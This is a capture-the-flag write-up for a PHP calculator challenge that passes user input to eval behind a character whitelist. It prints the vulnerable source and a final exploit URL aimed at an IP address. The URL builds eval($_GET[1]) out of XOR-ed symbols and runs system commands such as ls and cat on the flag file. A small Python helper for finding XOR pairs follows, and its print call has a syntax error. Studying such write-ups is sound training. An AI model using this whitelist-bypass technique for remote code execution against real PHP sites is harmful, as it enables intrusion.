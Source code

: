 ### Code: 

```php
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}

```

# Explanation: #
In above code only parameter is "calc". If parameter is not passed then source code is shown otherwise parameter is processed.
## Constraints
There are some constraints on roll parameter:-
### 1. Length
Length should be less than 70 characters.
### 2. Allowed Characters
0-9, +, -, *, /, (, ), ', ., ~, ^, |, &

## Target
Flag is in same directory in file "fl4g1sH3re.php".
1. We need to list all files in directory
2. We need to read flag file

## Exploitation:
#### Final Request
```http://139.180.155.171/?calc=(%2778***%26^^^^^1^%2b%27^%27|~~~~~2333-|-|%27^%27.058||3*(9(|.~%27)&1=system(ls);```

### Explanation

Here, request has two get parameters

#### 1. Payload parameter
```1=system(ls);```

this parameter is delivering command to be executed. When we will know name of file we can read using

```1=system('cat fl4g1sH3re.php');```

#### 2. Execution parameter

calc parameter is evaluated on runtime using eval. So I am delivering ```calc = eval($_GET[1])```.

So whatever is delivered in Get parameter 1, it will be executed on runtime.

How delivered without alphabets?

if we use xor like '^' ^ '2', it will becomes 'l'. Here '^' and '2' are characters. You can see there ascii value in ascii table. And there xor is resulting a character 'l'.

So How created whole payload?

First you should know one important property of xor

if, a^b=c

then a^c =b and b^a=c

Means if we have two values, we can find third. So if I xor character I am trying to create with characters I have, it will tell other character needed. It took very long time to find all correct combination. It is not automation or something but I used this python script for finding xor's

```python
chars = '0123456789+-*/().~^|&'
search = ")"
print("character ", search)

for c in chars:
	x = chr(ord(c)^ord(search))
	print(c, "=>" x)

```

